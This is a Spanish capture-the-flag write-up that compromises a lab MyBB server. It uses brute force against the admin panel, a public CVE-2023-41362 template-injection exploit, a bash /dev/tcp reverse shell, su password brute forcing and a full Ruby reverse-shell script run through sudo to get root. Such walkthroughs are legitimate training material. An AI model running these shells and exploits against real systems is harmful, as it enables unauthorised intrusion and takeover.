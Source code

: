 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/07f2096d-38a2-4e6b-9cef-0e6c1517fa85)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1.  **80/tcp(HTTP):** Apache httpd 2.4.59

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Sobre un foro de debate.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/3b3ba29a-6425-4af3-9fc0-4f5c6f6267ea)

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/01fabfb1-e9f4-450e-b7fb-1cc745c54b6f)
Tenemos que agregar `panel.mybb.dl` a nuestro `/etc/hosts`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b77ffc64-b9fb-4f2d-8543-852e4ea79e07)
Y ya tenemos una especie de foro...


# Fase 2- Expl0ración

#### FeroxBuster
```python
301      GET        9l       28w      314c http://panel.mybb.dl/admin
```
Encontramos un /admin.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6c354462-68e3-415f-b34a-90d7eb2510c7)
Nos dirige a un panel de login.

#### Admin
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c489345f-6a50-4ff9-be39-b3db86d013bd)

Buscando algún posible usuario para realizar fuerza bruta encuentro un mensaje que dice `Please welcome our newest member, admin` básicamente en español dice que le den la bienvenida a un nuevo usuario llamado `admin`.

# Fase 3- Explotación

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/519954b5-3dd2-4c39-9b88-20699cffd23c)
Hicimos un ataque de fuerza bruta al panel de login con la herramienta Hydra, pero nos dio muchas contraseñas, probaremos una a una hasta que entre.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/15fa90f8-8096-4398-b6c2-ddd37794619d)

Pudimos entrar probando contraseñas, la contraseña que fue efectiva es: `babygirl`.

#### MyBB
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/3784e32a-cb64-4b14-971e-9b7a20b8eb96)

La versión de MyBB es 1.8.35.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/846ff4c3-0e01-4bdb-84ca-e5d65fd7ae5e)
Es vulnerable a un `TEMPLATE CODE INJECTION`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/832246ee-5f60-4317-885c-91806fc5d4cc)
Buscamos el `CVE-2023-41362` y encontramos este repositorio en GitHub con un exploit. https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE

Lo clonamos y lo mandamos de la siguiente forma:
```python
> sudo git clone https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE.git
> cd CVE-2023-41362_MyBB_ACP_RCE
> python3 exploit.py http://panel.mybb.dl/ admin babygirl
[*] Logging into http://panel.mybb.dl/admin/ as admin
WARNING: Template already contains our payload code? Skipping to sending commands...
[*] Testing code exec...
[*] Shell is working
[*] Special commands: exit (quit), remove (removes backdoor), config (prints mybb config), dump (dumps user table)
Enter Command> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Enter Command> whoami
www-data
```
Y ya estamos dentro!.

Nos enviamos este comando para darnos una reverse shell y poder hacer el tratamiento de la TTY y estar mas comodos:
```python
Atacante> nc -nlvp puerto
Enter Command> bash -c "bash >& /dev/tcp/ip/puerto 0>&1"
```
Primero nos ponemos en modo escucha con este comando: `nc -nlvp 443` y después nos enviamos la reverse shell.

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c31231ee-cc7e-4654-8555-6c85992c353b)
Despues del tratamiento de la TTY, Debido a que no podemos ejecutar ningún binario como ningún usuario, vamos a realizar fuerza bruta desde la misma maquina con este script: https://github.com/Maalfer/Sudo_BruteForce

#### Brute Force
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/3bc44575-ca28-4e77-82e7-a2fc2779e006)
Nos pasamos el script a nuestra maquina atacante.

Y en la maquina victima en el directorio `/var/www/mybb` creamos una carpeta llamada `brute`.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c6662533-0871-402c-ad27-098384cdaacf)
Y en esa misma carpeta con wget nos descargamos el archivo.


En nuestra maquina atacante creamos un diccionario con las primeras 200 palabras del diccionario rockyou:
```python
Atacante> shuf -n 200 rockyou.txt > mini_rockyou.txt
Atacante> python3 -m http.server 80
www-data@e109354694fb:/var/www/mybb/brute$ wget 192.168.1.9/mini_rockyou.txt
```
lo compartimos a la máquina víctima y lo descargamos.

```python
www-data@e109354694fb:/var/www/mybb/brute$ bash Linux-Su-Force.sh alice mini_rockyou.txt
Contraseña encontrada para el usuario alice: tinkerbell
```
Y encontramos la contraseña!.

#### Alice
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/fdaa2381-0662-48a7-8bd8-8664a5d4444e)

Como el usuario `alice` podemos ejecutar todo lo que este dentro del directorio `/home/alice/scripts/*.rb` osea cualquier archivo que este en el directorio `scripts` que termine con `.rb` lo podemos ejecutar como usuario root.


Creamos un archivo con el siguiente codigo en nuestra maquina atacante:
```ruby
#!/usr/bin/env ruby
require 'socket'

server_ip = '192.168.1.9'
server_port = 443

begin
  socket = TCPSocket.new(server_ip, server_port)

   [STDIN, STDOUT, STDERR].each do |io|
      io.reopen(socket)
    end

   exec "/bin/bash"
rescue => e
  puts "Error: #{e}"
end
```

Luego nos lo pasamos a nuestra maquina victima:
```python
Atacante > python3 -m http.server 80
Victima> wget 192.168.1.9/rev.rb
```

Nos ponemos en modo escucha y ejecutamos:
```python
Atacante > nc -nlvp 443
Victima> chmod +x rev.rb 
Victima> sudo ./rev.rb 
```

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/266cb0a2-7edc-4ab4-ae77-83827267bcb4)

Y somos root!.
